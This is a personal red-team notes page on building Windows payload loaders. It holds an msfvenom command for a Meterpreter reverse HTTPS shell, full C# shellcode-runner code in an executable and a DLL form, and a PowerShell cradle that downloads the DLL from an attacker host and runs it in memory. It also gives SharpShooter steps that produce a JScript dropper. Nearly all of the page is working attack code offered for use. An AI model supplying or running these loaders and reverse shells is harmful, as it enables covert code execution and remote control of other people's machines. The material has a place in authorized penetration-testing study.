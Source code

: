 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: CSharp_Shellcode_Runner
---
```



<span style="font-size: 35px; color:red"><b>CSharp Shellcode Runner</b></span>
&nbsp;
Code for the reverrse_shell:
```shell
msfvenom  -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=<LPORT> -f csharp
```

To compile with Visual Studio as x64:
```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
             byte[] buf = new byte[630] {0xfc,0x48,0x83,0xe4, //Change here

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
&nbsp;

---
&nbsp;
<span style="color:white"><b>In-Memory Powershell Script</b></span>
In VS, create a new project as <span style="color:red">Class Library (.NET Framework)</span> that will output a .dll

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
	{
	    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
	    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
	     uint flAllocationType, uint flProtect);

	    [DllImport("kernel32.dll")]
	    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
	      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

	    [DllImport("kernel32.dll")]
	    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static void runner()
    {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
  ...
  0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 }; //Change here

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

To then call the revshell from Powershell:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<Attacker_IP>/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
&nbsp;

---
&nbsp;
<span style="font-size: 35px; color:red"><b>SharpShooter</b></span>

https://github.com/mdsecactivebreach/SharpShooter.git

In order to make it work:
```shell
apt-get install virtualenv python3-autopep8 python2-setuptools-whl python2-setuptools-whl
cd /opt/; git clone https://github.com/mdsecactivebreach/SharpShooter.git
cd SharpShooter; pip install -r requirements.txt
autopep8 -i /opt/SharpShooter/modules/excel4.py
virtualenv sharpshooter-venv -p $(which python2)
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python get-pip.py
pip install -r requirements.txt
```

Create a revshell payload:
```shell
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=443 -f raw -o /var/www/html/shell.txt
```

Create the .js file with the following command:
```shell
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

It will create a test.js which is the exploit.

